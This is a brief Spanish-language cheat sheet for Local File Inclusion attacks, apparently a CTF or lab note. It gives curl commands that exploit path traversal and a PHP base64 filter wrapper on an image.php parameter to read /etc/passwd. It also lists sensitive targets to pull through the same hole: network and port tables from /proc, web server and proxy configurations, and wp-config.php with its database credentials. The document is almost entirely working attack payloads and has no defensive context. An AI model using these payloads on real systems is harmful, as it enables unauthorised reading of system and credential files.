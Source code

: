 # LFI

## Directory Path Traversal Simple

```null
curl -s -X GET 'http://10.10.11.135/image.php?img=../../../../../../../etc/passwd'
```

## Wrappers

### Codificación en base64

```null
curl -s -X GET 'http://10.10.11.135/image.php?img=php://filter/convert.base64_encode/resource=/etc/passwd' 
```

## Archivos de interés

### Interfaces

```null
/proc/net/fib_trie
```

### Puertos internos

```null
/proc/net/tcp
```

#### Conversión a decimal

```null
for port in 0016 20FB 0CEA AE9A 0035; do echo "$((0x$port))"; done
```

### Configuración Apache2

```null
/etc/apache2/sites-enabled/000-default.conf
```

### Configuración del Nginx

```null
/etc/nginx/nginx.conf
```

### Configuración del Wordpress

```null
wp-config.php
```

### Configuración del SQUID Proxy

```null
/etc/squid/squid.conf
```
